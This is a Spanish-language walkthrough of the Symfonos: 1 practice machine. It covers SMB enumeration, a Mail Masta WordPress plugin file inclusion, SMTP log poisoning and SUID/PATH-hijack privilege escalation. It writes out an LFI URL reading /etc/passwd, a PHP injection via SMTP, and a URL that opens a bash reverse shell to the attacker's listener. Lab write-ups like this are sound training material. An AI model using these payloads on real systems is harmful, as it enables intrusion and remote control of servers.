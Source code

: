 # Symfonos: 1

**Sistema Operativo**: Linux

**Dificultad**: Fácil

**Técnicas Vistas**: SMB Enumeration /
Information Leakage /
WordPress Enumeration /
Abusing WordPress Plugin - Mail Masta 1.0 /
Local File Inclusion (LFI) /
Bash Scripting - Creating our own file reader utility /
LFI + Abusing SMTP service to achieve RCE /
Abusing SUID privilege + PATH Hijacking [Privilege Escalation]

Te prepara para las **Certificaciones**: eWPT /
eJPT /
eCPPTv2 /
eCPTXv2<br><br>

![image](https://github.com/user-attachments/assets/5e9743da-2921-40e0-aa17-80efcbce5d2f)<br><br>


Utilizando `arp-scan` vemos la IP de la maquina.<br>

![image](https://github.com/user-attachments/assets/6f278575-61a0-4d41-955e-905d9e58ca04)<br>

- `-I eth0` -> Mi interfaz grafica.
- `--localnet` -> Red local.
- `--ignoredups` -> Que ignore duplicados.<br><br>

Utilizando `nmap` escaneamos los puertos mas comunes<br>

![image](https://github.com/user-attachments/assets/dc76b7e3-8b8d-44ad-8e81-c6c1afdfc7a3)<br>

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>

Utilizando `nmap` lanzamos los scrips mas comunes de reconocimiento a los puertos abiertos.<br>

![image](https://github.com/user-attachments/assets/5410be42-a275-4eec-8584-e7ceaa210763)<br><br>

- En `/etc/hosts` Ponemos el dominio con la ip `192.168.0.86 symfonos.localdomain`<br><br>

### SMB

Utilizando `smbmap` vemos los recursos compartidos, vemos un usuario "helios" y una carpeta "anonymous" con capacidad de lectura.<br>

![image](https://github.com/user-attachments/assets/cf78d42d-7657-4f36-8d98-ce5de4f31c5b)<br><br>


Nos traemos el recurso "attention.txt" a nuestro equipo y encontramos contraseñas.<br>

![image](https://github.com/user-attachments/assets/81a42565-4c20-48e0-ae9e-b0ebba130ce6)<br><br>


Con el usuario y la contraseña podemos acceder a la carpeta "helios" y descargamos "todo.txt" junto con "research.txt"<br>

![image](https://github.com/user-attachments/assets/90bc213f-be93-411b-bf49-dc493aee138f)<br><br>


Encontramos un directorio Wordpress.<br>

![image](https://github.com/user-attachments/assets/0fe94f90-9570-4a2c-b20f-5331533c5e68)<br><br>

## WordPress LFI

Encontramos plugins:<br>

![image](https://github.com/user-attachments/assets/d233de98-508e-4ae6-850e-87e31561c506)<br><br>


- Url explotación de "mail-masta": https://wpscan.com/vulnerability/5136d5cf-43c7-4d09-bf14-75ff8b77bb44/<br>

- http://192.168.0.86/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd -> LFI<br>

## Log Poisoning

Nos conectamos al smtp por el puerto 25 "nc 192.168.0.86 25":<br><br>

```
MAIL FROM: santiago@santiago.com

RCPT TO: helios

DATA

<?CODIGO PHP?>

.

```
<br><br>

Buscamos la data que mandamos:<br>

http://192.168.0.86/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id <br><br>

Ganamos acceso:<br>

- http://192.168.0.86/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.30/443 0>%261"<br>

- rlwrap nc -nlvp 443 -> Nos ponemos en escucha.<br><br>

## Escalada de privilegios

Encontramos un binario SUID que ejecuta un `curl`<br>

![image](https://github.com/user-attachments/assets/dac0c31b-3eab-4456-b4f2-90cd0830c3fa)<br><br>

En `tmp` creamos un archivo que ponga SUID en la bash.<br>

![image](https://github.com/user-attachments/assets/3799e571-dd5b-4020-85b8-e08b603d59d6)<br><br>


Ponemos como prioridad la ruta `tmp`<br>

![image](https://github.com/user-attachments/assets/70c8bcb0-ae67-4d0e-956a-5b07a2db0d34)<br><br>

Ejecutamos el binario, nos lanzamos una bash privilegiada y somos root. Flag final:<br>

![image](https://github.com/user-attachments/assets/fd0d9083-0f81-4178-b363-f5e880b27e65)<br><br>


